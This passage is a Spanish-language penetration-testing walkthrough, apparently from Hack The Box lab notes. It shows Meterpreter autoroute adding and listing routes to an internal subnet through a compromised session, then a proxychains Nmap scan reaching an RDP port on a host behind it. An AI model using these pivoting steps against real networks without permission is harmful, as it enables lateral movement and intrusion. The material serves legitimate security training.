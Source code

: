 
También es posible agregar rutas con autoroute ejecutando autoroute desde la sesión de Meterpreter:
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

Después de agregar las rutas necesarias, podemos usar la opción -p para enumerar las rutas activas y asegurarnos de que nuestra configuración se aplique como se espera:

```shell-session
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

La ruta se ha añadido a la red 172.16.5.0/23. Ahora podremos usar proxychains para enrutar nuestro tráfico de Nmap a través de nuestra sesión de Meterpreter.

## Probando las funcionalidades Proxy & Routing

Y efectivamente, con la sesión de meterpreter abierta mi máquina atacante desde la consola puede ver a la máquina WINDOWS_A de otra red.
```shell-session
Polika4RM@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```
---
